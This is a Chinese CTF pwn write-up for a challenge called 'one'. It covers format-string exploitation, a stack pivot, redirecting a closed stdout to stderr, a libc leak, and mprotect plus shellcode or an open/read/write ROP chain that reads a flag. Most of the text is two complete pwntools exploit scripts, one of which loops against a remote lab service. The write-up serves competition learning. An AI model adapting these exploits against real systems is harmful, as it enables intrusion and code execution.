





这次比赛由于本人较菜，只做出了一道格式化字符串的那道题（比赛24个小时，这道题我打了18个小时，是真菜），在知道roderick师傅三小时做了四道题之后，就感觉自己更菜了  o(╥﹏╥)o 然后由于堆题的libc版本都很高，所以暂时先没打算复现（主要菜狗才刚把低版本libc的堆基础漏洞学完）

这里就记录一下one这道题的解题过程(我最开始自己做的用的方法很麻烦，我主要讲roderick师傅的解题思路吧，文末记录一下我最开始的方法)

## 保护策略：







## 漏洞所在：




首先这道题自己泄露了栈地址。




然后在login函数中，如果把s装满，那%s就可以泄露出一个程序地址，此时得到了程序基地址(以此来对抗PIE保护)，接着就是存在一个格式化字符串漏洞（不过只能执行一次）

然后对抗沙箱保护，采用的方式是orw读出flag，但是close(1)给读出flag造成了一些困扰，对抗措施是将stdout重定向到IO_2_1_stderr让程序重新具有回显。

## 大致思路：

由于有栈地址和程序基地址，所以这道题利用起来也不难，只要将stdout重定向一下，再获取一下libc地址，打orw即可。

先考虑如何控制程序执行流

我们是知道栈地址的，而且read读入了0x200的数据，这个数据量可以做很多事情，所以考虑用格式化字符串来实现栈迁移去执行我们布置到栈上的rop链。

rop链先考虑用magic gadget([magic gadget我这篇文章具体介绍了](https://www.cnblogs.com/ZIKH26/articles/16193814.html))去将stdout重定向到IO_2_1_stderr，然后利用gadget片段去执行puts函数泄露libc地址(因为此时标准输出已经重启)，接着用csu中的gadget片段执行read函数，再次布置一条rop链。

先说第一条rop链吧。

```py
payload=fmtstr_payload(offset=6,writes{rbp_addr:leak_stack_addr+0x118,rbp_addr+8:code_base+0x14D7},write_size_max="byte",write_size="byte")
payload+=p64(pop_rbx_rbp)+p64(magic_offset)+p64(stdout+0x3d)+p64(0)*4+p64(magic_addr)
payload+=p64(pop_rdi_addr)+p64(code_base+e.got['read'])+p64(code_base+e.plt['puts'])
payload+=p64(code_base+0x153A)+p64(0)+p64(1)+p64(0)+p64(leak_stack_addr+0x120)+p64(0x500)+p64(code_base+e.got['read'])
payload+=p64(code_base+0x1520)
```

这里建议使用fmtstr_payload这个模块，不然手写的话非常难受，因为一次只能写入0x2000的字节（因为标准输出被关闭了，更深层次原因未知），这就意味着一次只能改写一个字节。把栈地址一字节一字节写入的话，还需要考虑每个字节的大小。如果实现的话如下（也可能还有更简单的实现方法，但是比赛的时候我这个菜菜是这么做的）：

```python
l1=(start_addr)&0xff
l2=(start_addr>>8)&0xff
m1=(start_addr>>16)&0xff
m2=(start_addr>>24)&0xff
h1=(start_addr>>32)&0xff
h2=(start_addr>>40)&0xff
dic={l1:0,l2:1,m1:2,m2:3,h1:4,h2:5}
list=[l1,l2,h1,h2,m1,m2]
list_sort=sorted(list)
print(list_sort)
if bss_hook<0x2000 and (list_sort[1]-list_sort[0])>9 and bss_hook>0x3e8 and (list_sort[2]-list_sort[1])>9 and (list_sort[3]-list_sort[2])>9 and (list_sort[4]-list_sort[3])>9 and (list_sort[5]-list_sort[4])>9:
payload=b'%'+str(list_sort[0]).encode('utf-8')+b'c%16$hhn'
payload+=b'%'+str(list_sort[1]-list_sort[0]).encode('utf-8')+b'c%17$hhn'
payload+=b'%'+str(list_sort[2]-list_sort[1]).encode('utf-8')+b'c%18$hhn'
payload+=b'%'+str(list_sort[3]-list_sort[2]).encode('utf-8')+b'c%19$hhn'
payload+=b'%'+str(list_sort[4]-list_sort[3]).encode('utf-8')+b'c%20$hhn'
payload+=b'%'+str(list_sort[5]-list_sort[4]).encode('utf-8')+b'c%21$hhn'
payload+=b'%'+str(bss_hook-list_sort[5]).encode('utf-8')+b'c%284$hna'
payload+=p64(bss_addr+dic[list_sort[0]])+p64(bss_addr+dic[list_sort[1]])+p64(bss_addr+dic[list_sort[2]])
payload+=p64(bss_addr+dic[list_sort[3]])+p64(bss_addr+dic[list_sort[4]])+p64(bss_addr+dic[list_sort[5]])
```

所以还是建议比赛的时候用工具(但是不能只会用工具)

```python
payload+=p64(pop_rbx_rbp)+p64(magic_offset)+p64(stdout+0x3d)+p64(0)*4+p64(magic_addr)
payload+=p64(pop_rdi_addr)+p64(code_base+e.got['read'])+p64(code_base+e.plt['puts'])
payload+=p64(code_base+0x153A)+p64(0)+p64(1)+p64(0)+p64(leak_stack_addr+0x120)+p64(0x500)+p64(code_base+e.got['read'])
payload+=p64(code_base+0x1520)
```

这部分就是传参执行了一次magic gadget，一次puts,一次read函数。


然后因为要执行流要衔接到第二次rop链上，这就很考验read到底把数据精准写到哪。完全可以通过调试来看一下执行流最终到了哪个栈地址，不过在输入的字节数很充裕的情况下可以直接布置很多的ret指令，来往下滑，滑到rop链上。这次的rop链采用的是执行mprotect函数，将栈区变成可执行的，然后打shellcode获取flag。

下面是第二次的rop链

```python
payload=p64(code_base+0x1544)*0x30
payload+=p64(pop_rdi_addr)+p64(leak_stack_addr&~0xfff)+p64(pop_rsi_addr)+p64(0x500)+p64(pop_rdx_addr)+p64(7)
payload+=p64(mprotect)+p64(leak_stack_addr+0x120+0x1c0)#这里要垫一个shellcode的地址，然后用ret去执行
payload+=asm(shellcraft.cat("flag.txt", 2))
```


## 完整EXP：

```py
from pwn import *
#from pwncli import *
from tools import load,log_addr,log,debug
#p,e,libc=load('a')
p=process('./a')
e=ELF('./a')
libc=ELF('/home/hacker/Desktop/libc-2.31.so')
context.log_level='debug'
context.arch='amd64'
p.recvuntil('gift:')
leak_stack_addr=int(p.recv(14),16)
#log_addr('leak_stack_addr')
p.sendafter('username:','aaaaaaaa')
p.sendafter('password:','bbbbbbbb')
p.recvuntil('aaaaaaaa')
leak_base_addr=u64(p.recv(6).ljust(8,b'\x00'))
code_base=leak_base_addr-0x11a0
#log_addr('code_base')

pop_rdi_addr=code_base+0x1543
magic_addr=code_base+0x1272
rbp_addr=leak_stack_addr+0x810
pop_rbx_rbp=code_base+0x153A
stdout=code_base+0x4020
magic_offset=libc.symbols['_IO_2_1_stderr_']-0x1ed6a0 +0x1000000000000000
#debug(p,'pie',0x153A)
#gdb.attach(p)
log('leak_stack_addr+0x120',hex(leak_stack_addr+0x120))
payload=fmtstr_payload(offset=6,writes={rbp_addr:leak_stack_addr+0x118,rbp_addr+8:code_base+0x14D7},write_size_max="byte",write_size="byte")
payload+=p64(pop_rbx_rbp)+p64(magic_offset)+p64(stdout+0x3d)+p64(0)*4+p64(magic_addr)
payload+=p64(pop_rdi_addr)+p64(code_base+e.got['read'])+p64(code_base+e.plt['puts'])
payload+=p64(code_base+0x153A)+p64(0)+p64(1)+p64(0)+p64(leak_stack_addr+0x120)+p64(0x500)+p64(code_base+e.got['read'])
payload+=p64(code_base+0x1520)
p.sendline(payload)
read_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base_addr=read_addr-libc.symbols['read']
log_addr('libc_base_addr')
pop_rsi_addr=libc_base_addr+0x2601f
pop_rdx_addr=libc_base_addr+0x142c92
mprotect=libc_base_addr+0x1189a0 
print(hex(len(payload)))
payload=p64(code_base+0x1544)*0x30
payload+=p64(pop_rdi_addr)+p64(leak_stack_addr&~0xfff)+p64(pop_rsi_addr)+p64(0x500)+p64(pop_rdx_addr)+p64(7)
payload+=p64(mprotect)+p64(leak_stack_addr+0x120+0x1c0)
payload+=asm(shellcraft.cat("flag.txt", 2))
p.sendline(payload)

p.interactive()
```


## 笨比在比赛写的exp

我最开始考虑的方法是劫持栈里存放的一个ld.so的指针，这个指针可以影响在exit调用链上的一个call，所以在此处劫持执行流，然后再不断用格式化字符去劫持printf自己的返回地址，期间利用格式化字符串来完成stdout的重定向，而且这里还需要爆破，然后还有一个排序的那里为了保证是两个字节占位也需要爆破（但是赛后我想了一下，再好好处理一下，这里的爆破应该就能免了），然后重定向之后，最后一次payload里面既有格式化字符串，也有rop链，所以我采用的方式是用csu中的片段将格式化字符串给弹出去，至此执行流到我的rop链上。(这个权当记录一下吧，因为太麻烦(爆破的概率太低，具体概率多大我也没算不过应该爆个三四百次才能出一次把)，参考意义不大)

```py
from email.mime import base
from tools import *
context.log_level='debug'

def repeat():
    p.sendafter('username:','aaaaaaaa')
    p.sendafter('password:','bbbbbbbb')
    

def pwn():
    p.recvuntil('gift:')
    leak_stack_addr=int(p.recv(14),16)
    log_addr('leak_stack_addr')
    p.sendafter('username:','aaaaaaaa')
    p.sendafter('password:','bbbbbbbb')
    p.recvuntil('aaaaaaaa')
    leak_base_addr=u64(p.recv(6).ljust(8,b'\x00'))
    base_addr=leak_base_addr-0x11a0
    log_addr('base_addr')
    

    start_addr=base_addr+0x140B#0x148C
    bss_addr=base_addr+0x4048
    bss_hook=(bss_addr-0x3d60)&0xffff
    l1=(start_addr)&0xff
    l2=(start_addr>>8)&0xff
    m1=(start_addr>>16)&0xff
    m2=(start_addr>>24)&0xff
    h1=(start_addr>>32)&0xff
    h2=(start_addr>>40)&0xff
    # bss_h=(bss_hook)&0xff
    # bss_l=(bss_hook>>8)&0xff
    log_addr('m1')
    log_addr('l1')
    log_addr('h1')
    log_addr('h2')
    log_addr('l2')
    log_addr('m2')
    log_addr('start_addr')
    log_addr('bss_hook')
    dic={l1:0,l2:1,m1:2,m2:3,h1:4,h2:5}
    list=[l1,l2,h1,h2,m1,m2]
    list_sort=sorted(list)
    print(list_sort)
    
    if bss_hook<0x2000 and (list_sort[1]-list_sort[0])>9 and bss_hook>0x3e8 and (list_sort[2]-list_sort[1])>9 and (list_sort[3]-list_sort[2])>9 and (list_sort[4]-list_sort[3])>9 and (list_sort[5]-list_sort[4])>9:
        print('------>success<------')
        payload=b'%'+str(list_sort[0]).encode('utf-8')+b'c%16$hhn'
        payload+=b'%'+str(list_sort[1]-list_sort[0]).encode('utf-8')+b'c%17$hhn'
        payload+=b'%'+str(list_sort[2]-list_sort[1]).encode('utf-8')+b'c%18$hhn'
        payload+=b'%'+str(list_sort[3]-list_sort[2]).encode('utf-8')+b'c%19$hhn'
        payload+=b'%'+str(list_sort[4]-list_sort[3]).encode('utf-8')+b'c%20$hhn'
        payload+=b'%'+str(list_sort[5]-list_sort[4]).encode('utf-8')+b'c%21$hhn'
        payload+=b'%'+str(bss_hook-list_sort[5]).encode('utf-8')+b'c%284$hna'
        payload+=p64(bss_addr+dic[list_sort[0]])+p64(bss_addr+dic[list_sort[1]])+p64(bss_addr+dic[list_sort[2]])
        payload+=p64(bss_addr+dic[list_sort[3]])+p64(bss_addr+dic[list_sort[4]])+p64(bss_addr+dic[list_sort[5]])
    else:
        return 
    
    p.recvuntil("Now, you can't see anything!!!")
    p.sendline(payload)
    
    stdout=base_addr+0x4020
    #pause()
    sleep(0.1)
    p.send('aaaaaaaa')
    p.send('cccccccc')
    return_addr=leak_stack_addr-0xf8

    
    payload=b'%'+str(0x8C).encode('utf-8')+b'c%8$hhnaaaaa'+p64(return_addr)
    #pause()
    sleep(0.2)
    p.sendline(payload)
    sleep(0.2)
    #pause()
    e=ELF('./a')
    payload=b'aaaaaaaaaaaaaaaa%'+str(0x7C).encode('utf-8')+b'c%10$hhnaaaa'+p64(return_addr)+p64(stdout)+p64(stdout+1)
    p.sendline(payload)
    #pause()
    sleep(0.2)
    #debug(p,'pie',0x14B9,0x146C)
    payload=b'%'+str(0x8c).encode('utf-8')+b'c%11$hhn%'+str(0xc0-0x8c).encode('utf-8')+b'c%12$hhn%'
    payload+=str(0xd5-0xc0).encode('utf-8')+b'c%13$hhn%265$p'+p64(return_addr)+p64(stdout)+p64(stdout+1)
    p.sendline(payload)
    #pause()
    print('info1',p.recv())
    sleep(0.1)
    
    payload=b'%265$p%'+str(0x8c-14).encode('utf-8')+b'c%10$hhnaaaaaaaaaaaaaa'+p64(return_addr)+p64(stdout)+p64(stdout+1)
    p.sendline(payload)
    
    try:
        leak_libc_addr=int(p.recv(14,timeout=0.5),16)
    except:
        return

    print('============> YES <==============')
    libc_base_addr=leak_libc_addr-0x440f6b#0x440f5b
    log_addr('leak_libc_addr')
    log_addr('libc_base_addr')
    pop_rdi=base_addr+0x1543
    pop_rsi_r15=base_addr+0x1541
    pop_rdx_r12=libc_base_addr+0x119211#0x119241
    open_addr=libc_base_addr+0x10dce0#0x10dd10+
    write_addr=libc_base_addr+0x10e060#0x10e090+
    read_addr=libc_base_addr+0x10dfc0#0x10dff0+
    #debug(p,'pie',0x14B9,0x146C)
    csu_addr_l=(0x153b+base_addr)&0xff
    csu_addr_h=((0x153b+base_addr)>>8)&0xff
    log_addr('csu_addr_l')
    log_addr('csu_addr_h')
    if csu_addr_h>csu_addr_l:
        payload=b'%'+str(csu_addr_l).encode('utf-8')+b'c%9$hhn'+b'%'+str(csu_addr_h-csu_addr_l).encode('utf-8')+b'c%10$hhnaaa'+p64(return_addr)+p64(return_addr+1)
    
    else:
        payload=b'%'+str(csu_addr_h).encode('utf-8')+b'c%9$hhn'+b'%'+str(csu_addr_l-csu_addr_h).encode('utf-8')+b'c%10$hhnaaa'+p64(return_addr+1)+p64(return_addr)
    #rop=b'aaaaaaaaaaaaaaaa%'+str(csu_addr).encode('utf-8')+b'c%10$hnaaaaa'+p64(return_addr)+p64(stdout)+p64(stdout+1)
    rop=payload
    rop+=p64(pop_rdi)+p64(return_addr+8+0xc0+40)
    rop+=p64(pop_rsi_r15)+p64(0)+p64(0)
    rop+=p64(open_addr)
    
    rop+=p64(pop_rdi)+p64(1)
    rop+=p64(pop_rsi_r15)+p64(return_addr+0x200)+p64(0)
    rop+=p64(pop_rdx_r12)+p64(0x100)+p64(0)
    rop+=p64(read_addr)

    rop+=p64(pop_rdi)+p64(2)
    rop+=p64(pop_rsi_r15)+p64(return_addr+0x200)+p64(0)
    rop+=p64(pop_rdx_r12)+p64(0x100)+p64(0)
    rop+=p64(write_addr)
    rop+=b'flag.txt\x00'
    #pause()
    print('size',len(rop))
    sleep(0.1)
    p.sendline(rop)
    p.interactive()
    
i = 0
while 1:
    #p=process('./a')
    p=remote('192.168.1.106',9999)
    i=i+1   
    print('------------>'+str(i)+'<--------------')
    pwn()
    p.close()
```


